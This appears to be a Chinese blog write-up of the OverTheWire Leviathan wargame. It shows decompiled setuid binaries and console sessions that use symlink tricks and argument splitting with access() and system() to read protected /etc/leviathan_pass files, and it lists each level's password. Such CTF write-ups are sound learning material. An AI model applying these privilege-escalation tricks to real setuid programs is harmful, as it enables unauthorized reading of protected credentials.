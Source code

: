 ```yaml
---
title: wargames刷题[Leviathan]
date: 2022-09-07 10:10:00 +0800
categories: [CTF, Exercise]
tags: [wargames]     # TAG names should always be lowercase
---
```


# leviathan0

隐藏文件夹，ls -al就能看到bookmark.html。在里面搜索password即可，做题的时候没想到关键词是password。

>PPIfmI1qsA

# leviathan1

32位程序验证密码，objdump简单看了下程序中明文存储了密码sex

>mEh5PNl10e

# leviathan2

access函数检查用户对某文件的权限，程序中先用access判断后才执行/bin/cat。这样的方式存在绕过技术，大致的原理与空格相关

测试一下就可以知道argv不会截断'\ '，access会连带空格当成文件名，而snprintf生成的/bin.cat命令会按空格隔开
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
    printf("argc: %d\n", argc);
    for(int i = 0; i < argc; i++) {
        printf("access: %d\t", access(argv[i], 0));
        printf("argv: %s\n", argv[i]);
    }
    return 0;
}
```
```console
root@HeFeng:~/workplace# ./main tes\ t
argc: 2
access: 0       argv: ./main
access: 0       argv: tes t
```


```console
leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/backdoor
leviathan2@gibson:~$ touch /tmp/"backdoor passwd"
leviathan2@gibson:~$ ./printfile /tmp/backdoor\ passwd
Q0G8j4sakn
/bin/cat: passwd: No such file or directory
```

```c
if ( access(argv[1], 4) )
    {
      puts("You cant have that file...");
      return 1;
    }
else
    {
      snprintf(s, 0x1FFu, "/bin/cat %s", v6[1]);
      v4 = geteuid();
      v5 = geteuid();
      setreuid(v5, v4);
      system(s);
      return 0;
    }
```

>Q0G8j4sakn

# leviathan3

跟level1一样明文比较，没什么含金量

>AgvropI4OA

# leviathan4

用二进制形式直接输出了password，没啥好说的直接还原

```python
>>>for i in s:
...     print(chr(int(i, 2)), end='')
```

```console
leviathan4@gibson:~$ ./.trash/bin
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010
```

```c
stream = fopen("/etc/leviathan_pass/leviathan5", "r");
  if ( !stream )
    return -1;
  fgets(buf, 256, stream);
  for ( i = 0; strlen(buf) > i; ++i )
  {
    v4 = *(_BYTE *)(i + 134529120);
    for ( j = 0; j <= 7; ++j )
    {
      if ( v4 >= 0 )
        putchar(48);
      else
        putchar(49);
      v4 *= 2;
    }
    putchar(32);
  }
  putchar(10);
```

>EKKlTF1Xqs

# leviathan5

直接软链接输出file.log即可，一开始一直关注unlink被带跑了。

```c
stream = fopen("/tmp/file.log", "r");
  if ( !stream )
  {
    puts("Cannot find /tmp/file.log");
    exit(-1);
  }
  while ( 1 )
  {
    v5 = fgetc(stream);
    if ( feof(stream) )
      break;
    putchar(v5);
  }
  fclose(stream);
  v3 = getuid();
  setuid(v3);
  unlink("/tmp/file.log");
```

```console
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5
YZ55XPVk2l
```

>YZ55XPVk2l

# leviathan6

直接提权，没有任何难度。

```c
if ( argc != 2 )
  {
    printf("usage: %s <4 digit code>\n", *argv);
    exit(-1);
  }
  if ( atoi(argv[1]) == 7123 )
  {
    v3 = geteuid();
    v4 = geteuid();
    setreuid(v4, v3);
    system("/bin/sh");
  }
  else
  {
    puts("Wrong");
  }
  return 0;
```

>8GpZ5f8Hze

# leviathan7

通关

```console
leviathan7@gibson:~$ cat CONGRATULATIONS
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```